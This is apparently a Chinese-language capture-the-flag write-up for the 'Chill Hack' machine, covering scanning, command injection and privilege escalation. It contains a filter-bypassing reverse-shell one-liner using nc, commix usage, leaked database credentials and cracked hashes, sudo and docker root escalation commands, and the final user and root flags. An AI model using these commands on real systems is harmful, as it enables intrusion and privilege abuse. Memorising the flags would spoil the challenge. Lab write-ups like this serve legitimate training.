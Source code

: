 # Chill Hack

nmap快速扫描：
```
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
80/tcp    open     http
622/tcp   filtered collaborator
```

nmap版本扫描：
```
PORT    STATE  SERVICE      VERSION
21/tcp  open   ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.72.135
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp  open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp  open   http         Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
622/tcp closed collaborator
```

gobuster扫描：
```
/images               (Status: 301) [Size: 315] [--> http://10.10.160.216/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.160.216/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.160.216/js/]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.160.216/fonts/]
/secret               (Status: 301) [Size: 315] [--> http://10.10.160.216/secret/]
```
看到这个/secret，不用多说，八成就是这个，进去后发现一个可以执行系统命令的框，很明显了，命令注入。

这个地方应该可以使用commix，但我不会用。
```
commix --url="http://10.10.160.216/secret/#" --data="command=INJECT_HERE"

使用--reverse_tcp开启反向shell，
```

手动注入，看的wp，这个地方可以用反斜线绕过过滤：
```
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```


/var/www/files文件下的index.php的文件截取，发现了凭据。
```
if(isset($_POST['submit']))
	{
		$username = $_POST['username'];
		$password = $_POST['password'];
		ob_start();
		session_start();
		try
		{
			$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
			$con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
		}
		catch(PDOException $e)
		{
			exit("Connection failed ". $e->getMessage());
		}
		require_once("account.php");
		$account = new Account($con);
		$success = $account->login($username,$password);
		if($success)
		{
			header("Location: hacker.php");
		}
	}
mysql:dbname=webportal
host:localhost
username:root
password:!@m+her00+@db
```

登录数据库：
``````
mysql -u root -p
``````

数据据库名是webportal，里面有个表users，直接输出表的内容：
```
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```
MD，试了，没用，登不上。
```
anurodh:7e53614ced3640d5de23f111806cc4fd:masterpassword
apaar:686216240e5af30df0501e53c789a649:dontaskdonttell
```
这个地方是兔子洞。

在www-data的权限下使用```sudo -l```发现可以不使用密码执行/home/apaar/.helpline.sh，输入/bin/bash可以以使用apaar权限的shell(wp上看来的)  
```sudo -u apaar /home/apaar/.helpline.sh```  
但是不能用在其他用户上(不然直接使用root)，到此，你可以读到local.txt的一个flag。

**下面这一步可有可无：**

拿到apaar的shell之后，可以通过更改ssh公钥的方式登录进入apaar:
```
ssh-keygen -d apaar
```
密码随便设一个，使用vim更改.ssh下的公钥文件(就那一个文件，忘记名字了)，把刚刚生成的.pub文件的内容替换进去，然后用生成的私钥登录。

回到/var/www/files文件下，聪明的你一定发现了hacker.php，也一定发现了代码里的文件:
```
<html>
<head>
<body>
<style>
body {
  background-image: url('images/002d7e638fb463fb7a266f5ffc7ac47d.gif');
}
h2
{
	color:red;
	font-weight: bold;
}
h1
{
	color: yellow;
	font-weight: bold;
}
</style>
<center>
	<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
</head>
</html>
```
然后这个图片是有问题的，就是隐写术，可以用steghide检测一下，发现里面有一个zip：
```
steghide --extract -sf hacker-with-laptop_23-2147985341.jpg
```
解压zip的时候发现有密码，ok，熟悉的流程：
```
zip2john backup.zip > hash1.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
密码是:
pass1word        (backup.zip/source_code.php) 
```
解压后发先一个php文件，打开后发现：
```
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
```
发现password疑似base64：
```
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
解出来是：
!d0ntKn0wmYp@ssw0rd
```
这个才是用户anurodh的凭据，使用ssh登录。

输入id，你会发现你拥有docker的权限，所以在GTFObins上查找docker，可以直接提权:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
拿到root权限




### user flag
答案：{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

### root flag
答案：{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}